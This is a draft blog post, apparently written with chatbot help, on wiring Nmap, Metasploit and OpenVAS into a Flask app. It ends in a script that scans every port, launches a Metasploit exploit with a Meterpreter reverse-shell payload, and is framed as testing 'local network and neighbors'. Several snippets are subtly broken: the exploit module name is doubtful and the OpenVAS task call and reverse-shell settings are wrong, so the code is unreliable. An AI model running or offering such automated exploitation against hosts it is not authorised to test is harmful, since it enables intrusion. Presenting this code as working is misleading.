 ```yaml
---
title: "An advanced threat modeling bot (ThreatSentry) - p3"
author: "c4r4nch0"
date: "2023-06-15"
draft: True
searchHidden: True
tags: ["threat modeling", "infosec", "coding"]
ShowToc: True
ShowBreadCrumbs: True
# cover:
#     image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSQud1wlz3Fl6brRiyQMKkg8XMhI2BE9J7SazqbG4DBOcbkVorYi34k1Y6axGErJj0L9LU&usqp=CAU"
#     # can also paste direct link from external site
#     # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
#     alt: "Bug Bounty Bootcamp"
#     caption: "Bug Bounty Bootcamp"
#     relative: false # To use relative path for cover image, used in hugo Page-bundles    
---
```

### Part 3: Integration with Penetration Testing Tools

Certainly! Here's an updated version using open-source tools for integration with a Flask application:

1. Nmap for Network Scanning:

   - Nmap is an open-source network scanning tool that helps identify hosts, open ports, and services running on a network.

   - You can use the python-nmap library, which provides a Python interface for Nmap, to integrate it into your Flask application.

   - Here's an example code snippet to perform a basic network scan using Nmap:

   ```python
   import nmap

   def perform_network_scan(target_ip):
       scanner = nmap.PortScanner()
       scanner.scan(target_ip, arguments='-p-')  # Scan all ports

       open_ports = []
       for host in scanner.all_hosts():
           for proto in scanner[host].all_protocols():
               for port in scanner[host][proto]:
                   if scanner[host][proto][port]['state'] == 'open':
                       open_ports.append(port)

       return open_ports
   ```

2. Metasploit Framework for Exploitation:

   - Metasploit Framework is an open-source penetration testing framework that provides a collection of exploit modules.

   - You can utilize the Metasploit Framework's msfrpc library to integrate it with your Flask application.

   - Here's an example code snippet to demonstrate executing a Metasploit module using the msfrpc library:

   ```python
   from msfrpc import MsfRpcClient

   def exploit_target(target_ip, target_port):
       client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
       exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

       exploit_module['RHOSTS'] = target_ip
       exploit_module['RPORT'] = target_port

       session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

       return session
   ```

3. OpenVAS for Vulnerability Scanning:

   - OpenVAS is an open-source vulnerability scanning tool that can identify security weaknesses in target systems.

   - You can use the python-gvm library, which provides a Python interface for OpenVAS/GVM, to integrate it into your Flask application.

   - Here's an example code snippet to initiate a vulnerability scan using OpenVAS:

   ```python
   from gvm.connections import TLSConnection
   from gvm.protocols.gmp import Gmp
   from gvm.transforms import EtreeTransform

   def initiate_vulnerability_scan(target_ip):
       connection = TLSConnection(hostname='openvas_server', port=9390)
       transform = EtreeTransform()

       with Gmp(connection, transform=transform) as gmp:
           gmp.authenticate('username', 'password')
           scan_id = gmp.create_task(target=target_ip)

           # Start the scan
           gmp.start_task(scan_id)

           return scan_id
   ```

Please note that these code snippets are simplified examples, and you would need to install the respective libraries (`python-nmap`, `msfrpc`, `python-gvm`) to use them in your Flask application. Additionally, ensure you have the necessary credentials and proper access to use these open-source tools within your application.

Now, for a practical example, lets do a script un python for testing local network and neighbors:

  ```python
    import nmap
    from msfrpc import MsfRpcClient
    from gvm.connections import TLSConnection
    from gvm.protocols.gmp import Gmp
    from gvm.transforms import EtreeTransform

    # Perform network scan using Nmap
    def perform_network_scan(target_ip):
        scanner = nmap.PortScanner()
        scanner.scan(target_ip, arguments='-p-')  # Scan all ports

        open_ports = []
        for host in scanner.all_hosts():
            for proto in scanner[host].all_protocols():
                for port in scanner[host][proto]:
                    if scanner[host][proto][port]['state'] == 'open':
                        open_ports.append(port)

        return open_ports

    # Exploit target using Metasploit Framework
    def exploit_target(target_ip, target_port):
        client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
        exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

        exploit_module['RHOSTS'] = target_ip
        exploit_module['RPORT'] = target_port

        session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

        return session

    # Initiate vulnerability scan using OpenVAS
    def initiate_vulnerability_scan(target_ip):
        connection = TLSConnection(hostname='openvas_server', port=9390)
        transform = EtreeTransform()

        with Gmp(connection, transform=transform) as gmp:
            gmp.authenticate('username', 'password')
            scan_id = gmp.create_task(target=target_ip)

            # Start the scan
            gmp.start_task(scan_id)

            return scan_id

    # Execute the scan, detect, and vulnerability check
    def execute_network_security_check(target_ip):
        # Network scan using Nmap
        open_ports = perform_network_scan(target_ip)

        # Exploit target using Metasploit Framework
        session = exploit_target(target_ip, 80)  # Adjust the target port as needed

        # Initiate vulnerability scan using OpenVAS
        scan_id = initiate_vulnerability_scan(target_ip)

        # Save the outputs to separate TXT files
        with open('network_scan_output.txt', 'w') as f:
            f.write('Open Ports:\n')
            for port in open_ports:
                f.write(f'{port}\n')

        with open('exploit_output.txt', 'w') as f:
            f.write('Exploit Session:\n')
            f.write(f'{session}\n')

        with open('vulnerability_scan_output.txt', 'w') as f:
            f.write('Scan ID:\n')
            f.write(f'{scan_id}\n')

        print('Network security check completed. Results saved to TXT files.')

    # Execute the script with your localhost IP as the target
    execute_network_security_check('localhost')
  ```
